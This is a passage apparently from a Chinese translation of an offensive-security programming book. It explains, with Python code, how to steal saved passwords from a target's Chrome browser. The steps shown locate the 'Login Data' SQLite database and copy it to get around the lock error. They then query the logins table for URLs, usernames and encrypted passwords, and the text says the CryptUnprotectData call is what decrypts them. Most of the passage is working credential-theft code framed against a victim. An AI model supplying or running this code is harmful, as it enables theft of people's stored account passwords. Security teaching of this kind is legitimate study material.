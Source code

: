 ```
# IF the target was logging into a site which has an entry into the DB, then sometimes reading the Chrome DB will return an error that the DB is locked 
# OperationalError: database is locked
# The Workaround for this, is to make a copy the Login Data DB and pull data out of the copied DB

path2 = getenv("LOCALAPPDATA") + "\Google\Chrome\User Data\Default\Login2"
copyfile(path, path2)
...
```

我们将从导入必要的库开始：

1.  我们将导入`getenv`，来解析 Windows 环境变量并找到 Google Chrome 的 SQL 路径。

1.  接下来，我们导入 SQLite3 来读取 Chrome 的 SQLite 数据库并获取其原始值。

1.  我们导入了 `win32crypt`，它提供了一个高级库来调用 Windows API `CryptUnProtectData`。请记住，要使用这个库，我们首先需要从 [`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/) 安装 `pywin32` 库。

`LOCALAPPDATA` 是一个 Windows 环境变量，指向 `C:\Users`，然后是 `username`，接着是 `AppData\Local` 路径——这就是我们完整路径的一半。所以，一旦我们得到了这一部分，接下来只需将路径的第二部分附加上，方法是添加 `\Google\Chrome\User Data\Default\Login Data`，以获得 `Login Data` 数据库的绝对路径。

如果目标用户正在登录某个网站，并且该网站在数据库中有条目，那么有时读取 Chrome 数据库时会返回一个错误，提示数据库被锁定；当你运行 Python 脚本时，会遇到一个名为 `database is locked` 的异常。在我们的例子中，如果目标用户在我们要读取 Chrome 数据库时已经登录 Facebook，那么我们希望能够读取。解决方法是复制登录数据库并从复制的数据库中提取数据。因此，这里复制的数据库被命名为 `Login2`，并且与原始数据库位于同一目录下。此时，我们已经完成了定位数据库的第一步。

由于原始数据库可能被锁定，我们将从复制的数据库中读取数据。我们通过使用 `sqlite3.connect` 函数，指向复制的数据库路径来完成这项操作：

```
...
# Connect to the copied Database
conn = sqlite3.connect(path2)

cursor = conn.cursor() # Create a Cursor object and call its execute() method to perform SQL commands like SELECT

# SELECT column_name,column_name FROM table_name
# SELECT action_url and username_value and password_value FROM table logins
cursor.execute('SELECT action_url, username_value, password_value FROM logins') 
...
```

接着，我们创建一个游标对象，以便执行 SQL 查询来提取所需的列。如果你还记得，表名是 `login`，它有三列重要数据，分别是 `username` 和 `password_value`，以及 `action_url`。

然后，我们将选择这些列，并使用带有 `fetchall` 函数的 `for` 循环来提取它们的值：

```
...
# To retrieve data after executing a SELECT statement, we call fetchall() to get a list of the matching rows.
for raw in cursor.fetchall():

    print raw[0] + '\n' + raw[1] # print the action_url (raw[0]) and print the username_value (raw[1])
...
```
